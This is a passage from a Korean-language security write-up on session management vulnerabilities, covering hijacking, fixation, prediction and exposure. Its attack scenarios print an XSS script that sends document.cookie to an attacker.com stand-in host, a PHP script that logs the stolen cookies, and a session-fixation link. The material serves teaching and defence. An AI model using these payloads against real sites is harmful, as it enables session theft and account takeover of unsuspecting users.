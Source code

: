 # Session Management 취약점 분석

## 📋 취약점 개요

**Session Management 취약점**은 웹 애플리케이션이 사용자 세션을 부적절하게 관리할 때 발생하는 보안 취약점입니다. 세션 ID의 예측 가능성, 고정, 노출 등으로 인해 공격자가 다른 사용자의 세션을 탈취하거나 조작할 수 있습니다.

### 🎯 공격 원리

1. **세션 하이재킹**: 유효한 세션 ID 탈취
2. **세션 고정**: 공격자가 정한 세션 ID 강제 사용
3. **세션 예측**: 예측 가능한 세션 ID 생성 패턴 악용
4. **세션 노출**: 안전하지 않은 전송이나 저장

### 🔍 주요 위험성

- **CVSS 점수**: 7.5 (High)
- **계정 탈취**: 다른 사용자의 계정으로 로그인
- **권한 상승**: 관리자 권한 획득
- **개인정보 유출**: 민감한 사용자 데이터 접근

## 🚨 공격 시나리오

### 시나리오 1: 세션 하이재킹 (Session Hijacking)

```javascript
// XSS를 통한 세션 쿠키 탈취
<script>
var sessionCookie = document.cookie;
var xhr = new XMLHttpRequest();
xhr.open('GET', 'http://attacker.com/steal.php?cookie=' + sessionCookie, true);
xhr.send();
</script>
```

```php
<?php
// 공격자 서버에서 쿠키 수집
// steal.php
$stolen_cookie = $_GET['cookie'];
file_put_contents('stolen_sessions.txt', $stolen_cookie . "\n", FILE_APPEND);
?>
```

### 시나리오 2: 세션 고정 (Session Fixation)

```html
<!-- 공격자가 피해자에게 특정 세션 ID를 강제 -->
<a href="http://victim-site.com/login.php?PHPSESSID=ATTACKER_CONTROLLED_ID">
    로그인하세요
</a>
```
